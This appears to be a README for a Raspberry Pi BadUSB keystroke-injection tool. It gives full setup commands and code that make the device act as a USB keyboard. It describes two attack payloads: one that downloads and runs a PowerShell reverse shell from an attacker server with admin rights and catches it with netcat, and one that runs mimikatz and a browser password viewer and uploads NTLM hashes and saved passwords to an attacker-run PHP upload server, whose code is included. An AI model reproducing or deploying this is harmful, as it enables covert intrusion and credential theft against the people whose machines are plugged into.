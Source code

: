 ## Keystroke Injection

IP and PORT must be changed for both retrieve of the powershell script and revershell.

As many payloads could be saved, just ensure to either comment out (#) the imports or have one import importing the specific payload.



## Setup

Commands:

    echo "dtoverlay=dwc2" | sudo tee -a /boot/config.txt
    echo "dwc2" | sudo tee -a /etc/modules
    sudo echo "libcomposite" | sudo tee -a /etc/modules

    sudo touch /usr/bin/isticktoit_usb
    sudo chmod +x /usr/bin/isticktoit_usb
    sudo nano /etc/rc.local

Add the following before the line containing exit 0:

    /usr/bin/isticktoit_usb # libcomposite configuration

Execute thge first command and then paste the next block:
    
    sudo nano /usr/bin/isticktoit_usb
 
Paste:

    #!/bin/bash
    cd /sys/kernel/config/usb_gadget/
    mkdir -p isticktoit
    cd isticktoit
    echo 0x1d6b > idVendor # Linux Foundation
    echo 0x0104 > idProduct # Multifunction Composite Gadget
    echo 0x0100 > bcdDevice # v1.0.0
    echo 0x0200 > bcdUSB # USB2
    mkdir -p strings/0x409
    echo "fedcba9876543210" > strings/0x409/serialnumber
    echo "Tobias Girstmair" > strings/0x409/manufacturer
    echo "iSticktoit.net USB Device" > strings/0x409/product
    mkdir -p configs/c.1/strings/0x409
    echo "Config 1: ECM network" > configs/c.1/strings/0x409/configuration
    echo 250 > configs/c.1/MaxPower

    # Add functions here
    mkdir -p functions/hid.usb0
    echo 1 > functions/hid.usb0/protocol
    echo 1 > functions/hid.usb0/subclass
    echo 8 > functions/hid.usb0/report_length
    echo -ne \\x05\\x01\\x09\\x06\\xa1\\x01\\x05\\x07\\x19\\xe0\\x29\\xe7\\x15\\x00\\x25\\x01\\x75\\x01\\x95\\x08\\x81\\x02\\x95\\x01\\x75\\x08\\x81\\x03\\x95\\x05\\x75\\x01\\x05\\x08\\x19\\x01\\x29\\x05\\x91\\x02\\x95\\x01\\x75\\x03\\x91\\x03\\x95\\x06\\x75\\x08\\x15\\x00\\x25\\x65\\x05\\x07\\x19\\x00\\x29\\x65\\x81\\x00\\xc0 > functions/hid.usb0/report_desc
    ln -s functions/hid.usb0 configs/c.1/
    # End functions

    ls /sys/class/udc > UDC''


Now create a python script somewhere suitable and this couple of lines are the most important aspect of all the payloads:

    #!/usr/bin/env python3
    NULL_CHAR = chr(0)

    def write_report(report):
        with open('/dev/hidg0', 'rb+') as fd:
            fd.write(report.encode())


To make it auto start on boot up:

    sudo nano /etc/rc.local

Then add the following before the line containing exit 0:

    /home/root/(name_of_file.py)      #path_of_your_script.py



DONE!!!!



## Usefull Links

USB HID TABLE
    https://usb.org/sites/default/files/documents/hut1_12v2.pdf

Raspberry pi HID tutorial
    https://randomnerdtutorials.com/raspberry-pi-zero-usb-keyboard-hid/

Reverse shells
    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

Powershell commands
    https://blog.geoda-security.com/2019/03/reverse-shell-in-memory-utilizing.html



## Payload 1
For the first main payload, Reverse Shell Payload, the attacker must have a file server with the powershell located in it with the IP and PORT pointing to the listenning/attacker computer (probably it self).
The simples and fastes way is to start a python server with this commands:

    Python 2.x : python -m SimpleHTTPServe 8000

    Python 3.x : python3 -m http.server 8000

    Php : php -S 0.0.0.0:8000

Ensure that the port is the same in the payload.

The reverse shell can be easily started with netcat with this command

    nc -lvp 4040

Ensuring that the port is the same as the on in the powershell script.

Once all this is setup, the Keystroke Injection could be executed taking an average of 1 minute to complete and get a reverse shell!


Explaining the Payload:

This payload opens the 'Run' Box in windows with \RUNBOX then injects the code to download the reverse shell form the file server and execute it.
It then exedcutes that command by running it with admin priviliges, with \ADMINPRESS, and handles the window with \LEFTARROW and \ENTER.

The revershell is then downloaded and executed and run in the background seemlesly.



## Payload 2
For the second payload, Password Stealer Payload, will steal windows NTLM password hashes to be cracked and browser passwords.

For a main recovery of the password hashes a php server must be deployed with a file to handle the upload of the files containin the passwords.

You can copy the 'server' folder in /payload2/ directory that ahs everything set up, or you can do the following to set it up manually.

To set up the server on the in linux, go to a directory and:

    nano upload.php

Paste this in:

    <?php
    $file = date("H-i-s-m") . ".zip";
    file_put_contents($file, file_get_contents("php://input"));
    ?>

To start the server:

    php -S 0.0.0.0:8000

Additionally, the server root directory must contain both versions of mimikatz with filenames with mimikatz64.exe and mimikatz32.exe as well as a command suppoorted versiuon of WebBrowserPassViewer.exe names webpass.exe


##Explaining the payload:

This payload opens the 'Run' Box in windows with \RUNBOX and sends keystrokes to start powershell.
It then exedcutes that command by running it with admin priviliges, with \ADMINPRESS, and handles the window with \LEFTARROW and \ENTER.
Once powershell is launched, all the code is injected in one line.

The code first downloads both versions of mimkatz from the php server, it then runs them both and dumps the output into a file and both files are then uploaded to the php server and finnally all files are deleted and the powershell windows is closed.

Notes:
    All files are downloaded to the root of the C:\ drive.
    PHP server must be on before execution, otherwise script will run as normal but will not download or upload files.

    This could be done so much cleaner and simpler with less code!!! (i will be working on that)






